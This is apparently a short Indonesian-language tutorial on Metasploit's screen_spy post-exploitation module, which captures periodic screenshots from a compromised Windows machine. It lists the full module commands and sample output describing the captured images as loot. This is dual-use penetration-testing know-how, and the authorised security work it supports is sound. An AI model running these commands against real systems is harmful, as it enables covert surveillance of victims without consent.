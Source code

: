 # screen_spy

Modul `screen_spy` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk memantau layar target secara real-time dengan menangkap tangkapan layar berkala, memungkinkan penyerang melihat aktivitas korban seperti jika sedang bekerja di depan komputer.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/screen_spy
set COUNT <JUMLAH_SCREENSHOT>
set DELAY <JEDA_PER_SCREENSHOT>
set RECORD true
set SESSION <ID>
set VIEW_SCREENSHOTS true
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Capturing 6 screenshots with a delay of 5 seconds
[*] Screen Spying Complete
[*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot
[*] Deleting temporary screenshot file: /root/.msf4/logs/192.168.1.53.jpg
[*] Post module execution completed
```
